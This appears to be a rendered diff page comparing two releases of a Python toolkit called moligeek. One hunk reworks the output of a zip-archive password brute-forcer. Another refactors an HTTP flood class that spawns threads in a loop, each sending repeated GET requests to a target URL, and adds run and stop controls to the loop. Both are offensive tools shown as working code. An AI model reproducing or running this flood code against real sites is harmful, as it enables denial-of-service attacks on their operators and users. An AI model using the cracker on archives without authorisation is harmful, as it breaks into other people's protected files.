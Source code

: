 ```diff
-            print(zip.zipkey(zip_path,1))
+            password,time = zip.zipkey(zip_path,1)
         if mode in ["3", "数字字母符号混合"]:
-            print(zip.zipkey(zip_path,2))
+            password,time = zip.zipkey(zip_path,2)
+        print(f"密码为{password},总共耗时{time}秒")
     if os.name == "nt":
         input("按回车键结束程序")
```

### Comparing `moligeek-1.0.5/moligeek/core/LAN/scan.py` & `moligeek-1.0.6/moligeek/core/LAN/scan.py`

 * *Files identical despite different names*

### Comparing `moligeek-1.0.5/moligeek/core/__init__.py` & `moligeek-1.0.6/moligeek/core/__init__.py`

 * *Files identical despite different names*

### Comparing `moligeek-1.0.5/moligeek/core/encode/decode.py` & `moligeek-1.0.6/moligeek/core/encode/decode.py`

 * *Files identical despite different names*

### Comparing `moligeek-1.0.5/moligeek/core/encode/fence.py` & `moligeek-1.0.6/moligeek/core/encode/fence.py`

 * *Files identical despite different names*

### Comparing `moligeek-1.0.5/moligeek/core/network/__init__.py` & `moligeek-1.0.6/moligeek/core/network/__init__.py`

 * *Files 21% similar despite different names*

```diff
@@ -27,55 +27,70 @@
             try:
                 r = requests.get(self.url, self.headers)
                 self.collector['success'] += 1
             except:
                 # 发送失败
                 self.collector['err'] += self.speed - i
                 break
-    def startattack(self):
-        while True:
+    def attackRun(self):
+        while self.start:
             t = threading.Thread(target=self.attack, args=())
             t.start()
+    def run(self):
+        self.start = True
+        t = threading.Thread(target=self.attackRun, args=())
+        t.start()
+    def stop(self):
+        self.start = False
     def __init__(self, url, speed, headers=headers):
         self.url = url
         self.speed = speed
         self.headers = headers
         self.collector = {
             "success": 0,
             "err": 0,
         }
 
```